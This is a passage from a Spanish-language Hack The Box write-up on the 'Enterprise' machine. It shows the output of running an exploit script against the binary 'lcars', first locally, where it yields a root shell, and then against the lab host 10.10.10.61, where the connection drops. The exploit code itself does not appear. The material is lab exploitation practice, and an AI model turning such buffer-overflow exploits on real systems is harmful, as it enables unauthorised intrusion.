 Listo, ejecutemos:

```bash
❭ python3 exploit.py ./lcars
[*] '/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Starting local process './lcars': pid 1163091
[*] Switching to interactive mode

$ whoami
root
$ hostname -I
10.10.14.17
$  
```

Bieeeeeeeeeeeeeeeen, tenemos una `/bin/sh`, en este caso en nuestra máquina, pero ya podríamos indicarle el argumento **REMOTE**, para que tome la dirección IP y el puerto de la máquina víctima:

```bash
❭ python3 exploit.py ./lcars REMOTE
[*] '/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 10.10.10.61 on port 32812: Done
[*] Switching to interactive mode

[*] Got EOF while reading in interactive
$ id
$ 
[*] Closed connection to 10.10.10.61 port 32812
[*] Got EOF while sending in interactive
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112sad_ok.gif" style="display: block; margin-left: auto; margin-right: auto; width: 60%;"/>
